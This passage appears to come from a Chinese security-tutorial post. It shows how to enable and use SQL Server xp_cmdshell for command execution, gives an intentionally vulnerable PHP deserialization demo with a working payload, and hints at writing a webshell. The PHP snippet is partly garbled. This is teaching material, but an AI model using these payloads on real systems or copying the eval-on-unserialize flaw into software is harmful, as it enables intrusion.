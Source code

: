 使用xp_cmdshell，需要开启xp_cmdshell,只有sa权限才可以开启  
```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

```  
  
注：在高版本的sql server中已经无法使用xp_cmdshell  
```
EXEC master.dbo.xp_cmdshell 'whoami'

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80xskF00fib9V9PgDRroBDF7Ry0toUBbosvVCPjjvD4vHTZpffZldKRcew/640?wx_fmt=png&from=appmsg "")  
### 反序列化漏洞导致RCE  
  
写一个demo  
```
<?php
header("content-type:text/html;charset=utf-8");
class Cat{
public $name = "猫";
public function __wakeupeval($this->name);
}
}
// 接收参数
$data = $_REQUEST['data'];
// 反序列化
unserialize($data);

```  
  
构造poc  
```
O:3:"Cat":1:{s:4:"name";s:10:"phpinfo();";}

#O:3:"cat": 这部分指明了被序列化的是一个对象(O)。3表示类名的字符数，"cat"是类名。
#1: 表明对象有一个属性。这是属性计数，用来指明接下来会有多少个属性-值对。
#s:4:"name";: 这是属性名。s表示字符串，4是属性名"name"的长度。
#s:10:"phpinfo();";: 这是属性的值。s同样表示字符串，10是值"phpinfo();"的长度

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80xBGlehMEhI8QEAuEA5DTPGUiasAcAsvbtZUr3xjY1qSibjFjm50gWINtA/640?wx_fmt=png&from=appmsg "")  
  
这里可以将phpinfo()改成任意命令，比如file_put_contents('shell.php','  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80xOn6IAlYWicxxLLvUU6mpMtfwrBhuZNZJ7c350Fvh8YZfwSsN7jL0wPA/640?wx_fmt=png&from=appmsg "")  
  
  
加下方wx，拉你一起进群学习  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ibZ6uZjjH3v5KP8CaWoS7GAJnWQQxPpibNdibOdl0hc3X6uuBy7rLVOoxS0OSd4vdHWcibFpZg9T9Bx6T7Rn87RoIw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  

